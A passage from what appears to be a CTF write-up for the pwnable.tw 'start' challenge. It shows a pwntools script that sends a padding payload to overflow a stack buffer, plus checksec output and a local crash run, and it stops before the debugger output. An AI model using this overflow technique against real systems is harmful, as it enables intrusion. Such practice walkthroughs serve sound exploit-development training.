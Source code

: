 ```python
entry_point = "0x08048060"
# read  = entry_point+55
# ret   = entry_point+60
# b *(main+NN) break point syntax
if  not remote_connection:
    gdb.attach(conn,
    """
    b {entry}
    b *({entry}+55)
    b *({entry}+60)
    continue
    """.format(entry=entry_point))

_ = conn.recvuntil("Let's start the CTF:")

payload =  ''
payload += 'A'* 20
payload += 'B'* 10

conn.sendline(payload)

conn.interactive(prompt="")

```

So when we run this we crash hard.

```bash
(ctf) > $ python solve.py
[*] '/home/jmp-rax/workspace/ctf/pwnable.tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
ELF('/home/jmp-rax/workspace/ctf/pwnable.tw/start/start')
[+] Starting local process './start': pid 31175
[*] running in new terminal: /usr/bin/gdb -q  "./start" 31175 -x "/tmp/pwnmEzC_y.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
```

and from pwndbg/gdb:
